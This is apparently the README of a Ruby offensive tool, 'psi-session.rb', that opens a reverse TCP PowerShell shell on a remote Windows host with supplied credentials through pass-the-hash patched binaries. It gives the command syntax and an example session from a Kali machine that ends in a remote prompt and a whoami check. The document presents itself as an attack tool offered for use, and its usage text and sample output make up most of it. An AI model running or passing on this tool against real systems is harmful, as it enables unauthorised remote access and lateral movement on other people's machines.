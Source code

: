 # psi-session.rb
Tool designed to deliver you a reverse tcp powershell prompt directly to your linux commandline.
Execution is currently done via pth patched binaries for the time being.f

Syntax: ruby psi-session.rb <DOMAIN/username> <password> <rhost> <lhost> <lport>

Example:
root@kali:~/projects/psi-session# ruby psi-session.rb bob n0passw0rd1 10.0.0.12 10.0.0.13 5000
Windows PowerShell running as user bob on CLA-WIN7TOOLS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
cla-win7tools\bob
PS C:\Windows\system32> 
